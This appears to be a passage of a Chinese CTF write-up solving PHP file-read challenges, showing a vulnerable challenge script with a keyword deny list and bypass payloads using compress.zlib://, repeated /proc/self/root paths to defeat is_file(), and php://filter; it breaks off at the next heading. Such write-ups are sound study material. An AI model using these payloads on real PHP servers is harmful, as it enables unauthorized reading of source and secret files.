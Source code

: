 

压缩过滤器绕过

```php
?file=compress.zlib://flag.php
```

在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容
 多次重复后绕过is_file.。

```php
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php
```

php的一个小 trick. 具体看[这里](https://www.anquanke.com/post/id/213235?from=timeline)

## web114~filter

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 师傅们居然tql都是非预期 哼！
```

过滤了`compress` ,上面的非预期也就不能用了。

但 `filter` 没过滤。

payload :

```php
?file=php://filter/resource=flag.php
```

## web115~fuzz绕is_numeric,trim
